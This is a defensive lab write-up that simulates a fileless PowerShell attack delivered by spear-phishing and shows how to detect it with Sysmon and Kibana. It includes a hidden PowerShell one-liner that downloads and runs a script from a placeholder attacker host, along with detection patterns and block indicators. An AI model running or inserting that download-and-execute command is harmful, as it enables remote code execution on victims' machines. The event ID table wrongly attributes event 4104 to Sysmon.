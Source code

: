 # 🔧 Use Case: Fileless Malware via PowerShell (MITRE T1059.001)

---

## 📘 Scenario Summary

This simulation demonstrates a **fileless malware attack** using **PowerShell** initiated via a **spear-phishing email**. The payload is never written to disk, instead executing in memory, making it harder to detect by traditional antivirus tools.

The objective is to detect and analyze the PowerShell execution using **Sysmon**, **Winlogbeat**, **Elasticsearch**, and **Kibana**.

---

## 🧪 Attack Simulation Setup

### 🔧 Environment

* **Attacker Machine**: Kali Linux (bridged network)
* **Victim Machine**: Windows 10 Home Edition (bridged network)
* **Monitoring Stack**: Winlogbeat + Sysmon + Elasticsearch + Kibana (configured and verified)

---

## 🔪 Execution Steps

### 🔊 PowerShell Payload (Simulated)

A simple reverse shell or command execution payload in memory:

```powershell
powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://<attacker.ip>/payload.ps1')"
```


### 🚀 Method of Delivery

Use a simulated phishing email or execute manually on the victim machine for lab purposes.

---

## 📊 Log Sources & Event IDs

| Event ID | Description                             | Source               |
| -------- | --------------------------------------- | -------------------- |
| 1        | Process Creation (e.g., powershell.exe) | Sysmon               |
| 4104     | PowerShell script block logging         | Sysmon   |
| 4688     | A new process has been created          | Windows Security Log |

---

## 🔍 Detection Logic

* Alert if PowerShell runs with:

  * `-nop`, `-w hidden`, `IEX`, or `DownloadString`
* Watch for script block logs containing suspicious commands (`event.code:4104`)
* Track `powershell.exe` execution from uncommon parent processes (e.g., Outlook.exe, explorer.exe)

### Kibana Query Example

```kql
event.code:4104 AND winlog.event_data.ScriptBlockText:(DownloadString OR IEX)
```

---



---

## 🔫 Recommendations

* Disable PowerShell v2 and enforce Constrained Language Mode
* Enable PowerShell logging (module, script block, and transcription)
* Block known malicious PowerShell indicators (e.g., `DownloadString`, `IEX`, encoded commands)
* Use AppLocker or WDAC to limit script execution

---

## ⚠️ Possible False Positives

* IT scripts using automation (legit PowerShell usage)
* Monitoring tools or software installers using `Net.WebClient`


## 📆 Status Summary

| Field               | Value                       |
| ------------------- | --------------------------- |
| 🔬 Detection Tested | ✅ Yes                       |
| 💯 Detection Logic  | ✅ Working                   |
| 🛠️ Simulation Type | Manual (Fileless Execution) |
| 📆 Log Visibility   | ✅ Confirmed in Kibana       |
| 💻 Platform         | Windows 10 Home (Victim)    |

---

## 👀 Kibana Dashboard Screenshot
![alt text](<Shell log.png>)
